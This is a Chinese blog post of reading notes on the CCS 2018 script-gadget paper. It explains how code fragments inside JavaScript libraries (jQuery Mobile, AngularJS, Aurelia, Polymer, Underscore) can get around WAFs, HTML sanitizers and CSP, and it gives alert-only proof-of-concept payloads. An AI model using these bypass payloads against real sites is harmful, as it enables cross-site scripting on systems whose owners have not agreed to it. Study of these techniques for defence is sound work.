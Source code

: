 ```yaml
---
title: 基于Gadgets绕过XSS防御机制
date: 2019-02-27 09:49:17
tags:
---
```


这篇文章是之前对CCS 2018 `Code-Reuse Attacks for the Web Breaking Cross-Site Scripting Mitigations via Script Gadgets` 的阅读笔记，最近整理资料发现放了挺久，于是稍做了一些整理和扩展发了出来。

<!--more-->

# 0x00 背景

本文主要考虑在可以注入任意HTML代码（富文本编辑器等应用）的条件下，利用JavaScript库中的一些代码片段（Gadget）来绕过常见的XSS防御机制，包括WAF、浏览器的XSS Filter、HTML Sanitizers、Content Security Policy等。

其中WAF考虑对请求值和返回值进行处理的正则匹配型或者字符匹配型WAF，HTML Sanitizers是则指DOMPurify这种基于DOM解析的XSS过滤器，Content Security Policy则主要考虑启用`unsafe-eval`或`strict-dynamic`的情况。

# 0x01 简单例子

和二进制攻击中的Gadget作用类似，本文中的Gadget是指可能被恶意利用的代码片段，下面以一个简单的例子来说明：

```js
var button = document.getElementById("mbutton");
button.innerHTML = button.getAttribute("data-text");
```

在这段代码中，取出了Id为`mbutton`的元素，并将data-text的值赋到了该元素的innerHTML属性。这是一些库中为了实现类似Tooltip等效果常用的一种方式，但是在存在这种代码片段的时候，只要构造如下的元素，就可造成XSS攻击。

```html
<button id="mbutton" data-text="<img src=x onerror=alert(/xss/)>">a</button>
```

# 0x02 Gadget分类

论文中把可利用的Gadget分为几类，具体如下：

## 字符串操作

这种Gadget主要是指对字符串的操作，一个字符串在经过操作后可能变为造成攻击的字符。

例如Polymer中的一段代码`dash.replace(/-[a-z]/g, (m) => m[1].toUpperCase())`，这段代码会把以连字符构成的字符串变为大写，例如像`inner-h-t-m-l`这种字符串处理后会变成`innerHTML`。大部分WAF是对请求值和返回值做匹配，而此时传入的是`inner-h-t-m-l`而不是`innerHTML`，那么就有可能造成绕过。

## 元素创建

这种Gadget是像`document.createElement(input)` `document.createElement("script")` `jQuery("<" + tag + ">")` `jQuery.html(input)` 这种直接创建的标签甚至script的代码片段。当输入一定程度可控时，则可利用这种Gadget。

## 函数创建

这种Gadget是指创建函数的代码段，比如Underscore.js中发现的一段代码：

```js
source = "var __t,__p='',__j=Array.prototype.join," +
"print=function(){__p+=__j.call(arguments,'');};\n" +
source + 'return __p;\n';
var render = new Function(
settings.variable || 'obj', '_', source);
```

这种Gadget会间接执行构造的代码段，在一定条件下可造成攻击。

## JavaScript代码执行

这种Gadget主要是指类似`eval`这种会直接执行传入代码的代码段，例如：

```js
eval(input);
inputFunction.apply();
node.innerHTML = "prefix" + input + "suffix";
scriptElement.src = input;
node.appendChild(input);
```

## 表达式解析

很多前端框架都提供了自己的模版引擎，有着丰富而强大的功能，这种Gadget就是框架中对模版表达式解析执行而造成的问题。例如Aurelia框架中可以用下面这段代码来触发一个代码执行。

```
<div ref=me
s.bind="$this.me.ownerDocument.defaultView.alert(1)"
></div>
```

# 0x03 例子

## 例一

论文中提及的例子很多，本文选取其中一个在jQuery Mobile中的Gadget来介绍：

```js
if (myId) {
    ui.screen.attr("id", myId + "-screen");
    ui.container.attr("id", myId + "-popup");
    ui.placeholder
        .attr("id", myId + "-placeholder")
        .html("<!-- placeholder for " + myId + " -->");
}
```

这个Gadget会提取`data-role`为`popup`的元素，获取其`id`中的内容，并调用`.html`，那么就可以构造一个如下的PoC：

```html
<div data-role=popup id='-->
&lt;script&gt;alert(1)&lt;/script&gt;'>
</div>
```

在这个PoC中，没有`<script>`这种会触发WAF的字符串，用到的属性也是`data-role` `id`等在HTML Sanitizer白名单中的元素，因此该PoC可以绕过大部分的防御手段。

## 例二

虽然文中主要是针对`unsafe-eval`或`strict-dynamic`两种情况作了CSP的绕过，但是在有的情况下，不开启这两个选项也可实现执行，例如下面这个PoC：

```html
<html>
  <head>
    <meta http-equiv=content-security-policy content="object-src 'none';script-src https://ajax.googleapis.com/ajax/libs/angularjs/1.6.1/angular.min.js;">
    <script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.6.1/angular.min.js"></script>
  </head>
  <body>
     <div ng-app ng-csp>
      <div ng-focus="x=$event" tabindex=0>foo</div>
      <div ng-repeat="(key, value) in x.view">
        <div ng-if=key=="window">{{ value.alert = [1].reduce(value.alert, 'xss') }}</div>
      </div>
    </div>
  </body>
</html>
```

在模版内部中，Angular利用的是下面这个函数来完成调用，并不涉及`eval`等函数，因此在CSP没有开启`unsafe-eval`或`strict-dynamic`的情况下也可实现代码执行。

```
function defaultHandlerWrapper(element, event, handler) {
  handler.call(element, event);
}
```

# 0x04 Gadget发现

对Gadget的查找，作者给出了两种方式，一种是手工查找，一种是基于污点分析的半自动化查找。手工查找本文不做赘述，主要讲基于污点分析的半自动化查找方式。

这种方式是基于2013年CCS的一篇名为`25 Million Flows Later - Large-scale
Detection of DOM-based XSS`的文章。

该方式基于浏览器完成，先对`eval` `document.write`等敏感调用和`innerHTML`做了污点跟踪。然后爬取Alex Top 5000的网站，当发现数据流入了这些敏感调用，就尝试使用预置的一些攻击载荷尝试利用，若利用成功，则找到了一个Gadget。

当然这种方式也存在一些限制，比如作者只对第一级的链接做了分析和尝试、没有做用户交互和验证、在验证的时候没有考虑防御机制的绕过等。

# 0x05 参考链接

+ https://github.com/cure53/DOMPurify
+ https://github.com/google/security-research-pocs/tree/master/script-gadgets
+ https://queue.acm.org/detail.cfm?id=2663760
+ https://security.googleblog.com/2009/03/reducing-xss-by-way-of-automatic.html
+ https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf
